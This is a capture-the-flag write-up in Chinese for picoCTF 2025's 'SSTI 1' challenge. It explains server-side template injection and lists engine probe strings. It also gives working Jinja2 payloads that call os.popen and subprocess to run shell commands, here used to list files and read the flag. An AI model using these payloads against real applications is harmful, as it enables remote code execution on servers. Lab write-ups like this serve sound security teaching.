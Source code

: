 # SSTI 1

###### tags: `Web Exploitation`, `picoCTF 2025`, `browser_webshell_solvable`

![1747153161445](image/SOLVED/1747153161445.png)

## SSTI(Server Side Template Injection)

這是一種將惡意內容注入到 Web Server 執行命令的漏洞。

模板(Template)引擎的目的是將固定模板和 volatile data 結合來產生網頁，當 User 輸入可以直接連結到模板，讓攻擊者可以注入模板指令並且操縱模板引擎時，可能就能完全控制 Server。

| Type                         | Format             |
| ---------------------------- | ------------------ |
| Jinja2 (Python Flask/Django) | {{ 7*7 }}          |
| Freemarker (Java)            | ${7\*7}            |
| Velocity (Java)              | #set($a = 7*7)${a} |
| Thymeleaf (Java)             | ${7\*7}            |
| Twig (PHP Symfony)           | {{ 7\*             |
| Smarty (PHP)                 | {$7\*7}            |
| Mako (Python)                | <% print 7\*7 %>   |

### 測試

![1747059824902](image/SOLVED/1747059824902.png)

可知目前之架構採用 -> Jinja2(Python Flask/Django) or Twig (PHP Symfony)

可用

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('<cmd>').read() }}
```

或

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('<cmd>',shell=True,stdout=-1).communicate() }}
```

輸入指令內容

### 獲取當前路徑下的 file list (ls)

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```

![1747059952542](image/SOLVED/1747059952542.png)

### 查看 flag 資料

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

即可得到 Flag
